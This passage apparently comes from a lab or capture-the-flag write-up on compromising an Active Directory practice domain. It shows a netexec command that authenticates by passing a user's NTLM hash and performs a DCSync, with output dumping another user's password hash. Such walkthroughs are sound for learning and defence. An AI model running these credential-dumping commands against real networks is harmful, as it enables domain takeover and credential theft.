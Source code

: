 ![](./assets/img/rv-sept/ntlm.png)

Additionally, we'll find that the `Maintainers` group has `GenericAll` permissions on the `Sysadmins` group in `backward.rv`.

![](./assets/img/rv-sept/sysadmins.png)

## DCSyncing natasha.lim

As we did before with the `Administrator@antennae.rv` user, we can perform a `DCSync` attack to obtain the `NTLM` hash of the `natasha.lim` user:

```
~$ nxc smb dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116' --ntds --user 'natasha.lim'
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
SMB         10.5.10.10      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.5.10.10      445    DC01             natasha.lim:1123:aad3b435b51404eeaad3b435b51404ee:0a1bc6b13cd3106322a6d5bbb0293e44:::
```
